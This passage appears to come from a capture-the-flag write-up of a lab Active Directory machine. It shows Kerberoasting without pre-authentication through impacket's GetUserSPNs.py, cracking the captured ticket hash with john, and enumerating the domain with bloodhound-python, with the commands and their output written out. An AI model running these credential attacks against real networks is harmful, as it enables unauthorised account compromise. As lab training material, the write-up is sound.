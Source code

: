 ### Kerberoast W/O Pre-Auth --> Password

I googled a bit more about what I could do with `jjones` account since it doesn't have the PreAuth flag set for it. Came across a new Kerberoast method I didn't use before:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/kerberoast#undefined" %}

The edited files can be found here:

{% embed url="https://github.com/fortra/impacket/pull/1413" %}

Using this method, we can try using `GetUserSPNs.py` to find a hash:

```
$ GetUserSPNs.py -no-preauth 'jjones' -target-domain rebound.htb -usersfile users.txt -dc-ip dc01.rebound.htb rebound.htb/guest -no-pass
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$<TRUNCATED>
$krb5tgs$18$delegator$$REBOUND.HTB$*delegator$*$<TRUNCATED>
```

We get 2 hashes using this method, one for `ldap_monitor` and one for `delegator`. `john` is able to crack the hash for `ldap_monitor`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>     (?)     
1g 0:00:00:04 DONE (2023-09-13 00:17) 0.2066g/s 2694Kp/s 2694Kc/s 2694KC/s 1Gobucs!..1DENA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Bloodhound + Password Spray + Thinking

Using these credentials, we can use `bloodhound-python` to enumerate the entire domain. Running it the first time reveals that `gmsa.rebound.htb` is another domain we need to add to the `hosts` file. Afterwards, we can run it to collect information about the domain:

{% code overflow="wrap" %}
```
$ bloodhound-python -u ldap_monitor -p <REDACTED> -d rebound.htb -ns 10.129.148.205 -c all
```
{% endcode %}

Afterwards, we can upload the information to Bloodhound. From it, `winrm_svc` seems to be the next user we have to compromise:

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>
